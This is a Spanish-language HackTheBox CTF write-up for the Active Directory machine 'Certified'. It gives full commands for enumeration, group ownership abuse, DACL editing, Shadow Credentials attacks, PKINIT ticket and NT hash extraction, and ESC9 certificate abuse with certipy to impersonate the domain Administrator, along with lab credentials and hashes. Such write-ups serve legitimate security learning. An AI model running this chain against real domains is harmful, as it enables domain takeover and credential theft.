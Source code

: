 ```yaml
---
layout: single
title: write up Certified HTB
excerpt:
date: 2025-3-18
classes: wide
header:
  teaser: https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/certified_avatar.png
  teaser_home_page: true
categories:
  - hacking
  - Windows
  - ctf
  - netexect
  - bloodhunt
  - adcs
  - certipy
  - ESC9
  - hackthebox
tags:
  - hacking
  - Windows
  - ctf
  - netexect
  - bloodhunt
  - adcs
  - certipy
  - ESC9
  - hackthebox
---
```


"Certified" es una máquina de dificultad media en HackTheBox que involucra un entorno de Active Directory. Al comenzar, se nos proporcionan credenciales de un usuario inicial que tiene la capacidad de agregarse a un grupo específico. Aprovechando este privilegio, podemos unirnos a dicho grupo y ejecutar un ataque de Shadow Credentials contra otro usuario, lo que nos permite obtener su hash NT. Este segundo usuario también es vulnerable al mismo ataque, permitiéndonos comprometer la cuenta de un tercer usuario. Esta última cuenta tiene permisos para gestionar certificados, lo que abre la posibilidad de explotar la vulnerabilidad ESC9 en el servicio AD CS. A través de esta técnica, logramos escalar privilegios y suplantar la identidad del Administrador del dominio.

lo primero como siempre el escaneo de Nmap

```bash
nmap -p- --open --min-rate 5000 -sT -vvv -n -Pn 10.10.11.41 -oG allports
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241219142548.png)

```bash
nmap -sVC -p53,88,135,139,389,445,593,636,3269,5985,9389,49666,49668,49673,49674,49683,49773 10.10.11.41 -oN ports
```

```bash
9683,49773 10.10.11.41 -oN ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 14:25 CET
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 70.59% done; ETC: 14:26 (0:00:12 remaining)
Stats: 0:01:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.66% done; ETC: 14:26 (0:00:00 remaining)
Nmap scan report for 10.10.11.41
Host is up (0.030s latency).

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-12-19 20:25:45Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  globalcatLDAPssl?
|_ssl-date: 2024-12-19T20:27:14+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  unknown
49668/tcp open  unknown
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  unknown
49683/tcp open  unknown
49773/tcp open  unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-19T20:26:11
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.63 seconds
```


comprovamos las credenciaales del usuario que nos da por defetcto HTB y aparte saco el dominio 
```bash
nxc smb 10.10.11.41 -u 'judith.mader' -p 'judith09'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241219143502.png)

vamos a sacar el bloodhunt de esta mquina para poder usarlo

```bash
python3 bloodhound.py -d certified.htb -ns 10.10.11.41 -u judith.mader -p judith09 -c All --zip
```

nos genera un .zip
yo lo voy a abrir usando la version de docker
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220115214.png)
descubrimos esta estructura
porlo que podemos intenar ganar acceso a Management y des hay a CA_operartor  y despues ser admin

lo primero es conseguir estar dentro del grupo y conseguir permisos de scritura 

como no tenemos sesion winrm vamos a tener que hacerlo todo desde la terminal 
primero vamos a usar bloodyAD para acer nuestro usuario dueño del grupo
https://github.com/CravateRouge/bloodyAD
(NOTA:  no se porque ahora HTB te da ya los permisos de propietario y escritura pero auna si yo voy a hacer el como se conseguirian)

```bash
python3 bloodyAD.py --host "10.10.11.41" -d 'certified.htb' -u 'judith.mader' -p 'judith09' set owner Management judith.mader
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220120508.png)

ahora vamos a conseguir los permisos de escritura con dacledit.py
https://github.com/fortra/impacket/blob/master/examples/dacledit.py

```bash
python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220121029.png)

perfecto por lo que como tenemos ya estos permisos ya podemos añadir a Management al grupo
para ello vamos a volver a usar bloodAD

```bash
python3 bloodyAD.py --host "10.10.11.41" -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220121534.png)

vale perfecto ahora como somos totalmente del grupo podemos intentar sacar el certificado al usuario management_svc
vamos a usar pywhisker
https://github.com/ShutdownRepo/pywhisker

```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220122103.png)

ahora vamos usar kerberos para intentar conseguir el ticket (TGT) gracias al certificado que emos conseguido

para esto vamos a usar gettgtpkinit gunto al archivo .pfx y la contraseña que nos da
https://github.com/dirkjanm/PKINITtools

```bash
 python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/zzero/certified/content/pywhisker/pywhisker/GMgSVanb.pfx -pfx-pass EwVgr6W570k5CtV5i4tB fuck2.ccache
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220122945.png)
no suelta un erro y es por el tema de zona horaria para solucionarlo hay que hacer lo siguiente

```bash
ntpdate certified.htb
```

volvemos a ejecutar el comando y

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193054.png)

ya funciono por lo que tenemos ticket y .ccache

ahora ya que tenemos esto podemos intentar sacar el hash nt
para ello vamos a usar getnthash gunto a los datos anteriores
https://github.com/dirkjanm/PKINITtools

lo primero tenemos que declarar la siguiente variable
en mi caso seria asi
```bash
export KRB5CCNAME=/home/zzero/certified/content/PKINITtools/fuck2.ccache
```
tenemos que referncia al .ccache asi 

y ahora ejecutamos de la siguiente forma

```bash
python3 getnthash.py certified.htb/management_svc -key d7964090a53e45440fe4f7dbbfc0f3ad8555820724dc83dbeb1eb6d673f7ed04
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193550.png)

tenemos hahs por lo que podemos acceder a la mquina 

verificamos que tengamos winrm con el usuario management_svc con netexect

```bash
nxc winrm 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220193752.png)

tenemos acceso pero no nos vale de nada porque es solo para la flag

## root

como tenemos control de management_svc podemos intentar ganar control de ca_operator
lo primero 
vamos a modificar sus credenciales con certipy-ad
https://github.com/ly4k/Certipy

```bash
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194456.png)

tenemos un segundo hash
ahora actualizamos su UPN
```bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194635.png)

pedimos un certificado de administrador
```bash
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220194906.png)

ahora restauramos el NPU original

```bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195004.png)

y obtenemos el TGT de admin

```bash
certipy auth -pfx administrator.pfx -domain certified.htb
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195111.png)

y ya con netexect comprovamos si tenemos acceso

```bash
nxc winrm 10.10.11.41 -u 'administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/certified/Pasted-image-20241220195224.png)

